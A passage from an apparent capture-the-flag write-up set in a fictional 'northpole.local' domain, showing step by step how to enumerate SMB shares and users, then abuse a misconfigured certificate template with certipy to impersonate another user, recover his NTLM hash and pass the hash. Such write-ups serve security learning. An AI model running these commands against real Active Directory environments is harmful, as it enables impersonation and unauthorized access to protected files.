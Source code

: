 Okay, so we can get a certificate with any user we want... but which user? Well, we need to access the "secret file in the inaccessible folder on the FileShare". We can already access the FileShare and see the inaccessible folder as elfy, but we can't access it:

```bash
$ smbclient.py northpole.local/elfy:J4\`ufC49/J4766@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL
# use FileShare
# ls
drw-rw-rw-          0  Tue Jan  2 01:13:44 2024 .
drw-rw-rw-          0  Tue Jan  2 01:13:41 2024 ..
-rw-rw-rw-     701028  Tue Jan  2 01:13:43 2024 Cookies.pdf
-rw-rw-rw-    1521650  Tue Jan  2 01:13:44 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Tue Jan  2 01:13:44 2024 SignatureCookies.pdf
drw-rw-rw-          0  Tue Jan  2 01:13:44 2024 super_secret_research
-rw-rw-rw-        165  Tue Jan  2 01:13:44 2024 todo.txt
# cd super_secret_research
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```

You can get a certificate for any arbitrary username, but when you try to use it with `certipy auth`, you'll get an error if the user does not exist. Alabaster does exist, but cannot access the super secret share either.

Fortunately, Alabaster has a command for viewing users:
```bash
$ lookupsid.py northpole.local/elfy:J4\`ufC49/J4766@10.0.0.53
...
$ lookupsid.py northpole.local/elfy:J4\`ufC49/J4766@10.0.0.53 | grep SidTypeUser
500: NORTHPOLE\alabaster (SidTypeUser)
501: NORTHPOLE\Guest (SidTypeUser)
502: NORTHPOLE\krbtgt (SidTypeUser)
1000: NORTHPOLE\npdc01$ (SidTypeUser)
1104: NORTHPOLE\elfy (SidTypeUser)
1105: NORTHPOLE\wombleycube (SidTypeUser)
```

Ribb Bonbowford mentioned Wombley so let's try his account:

```bash
$ certipy req -username elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -target northpole.local -template NorthPoleUsers -upn wombleycube@northpole.local -dc-ip 10.0.0.53
...
[*] Saved certificate and private key to 'wombleycube.pfx'
$ certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53 -domain northpole.local
...
Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
$ smbclient.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
# shares
ADMIN$
C$
D$
FileShare
IPC$
```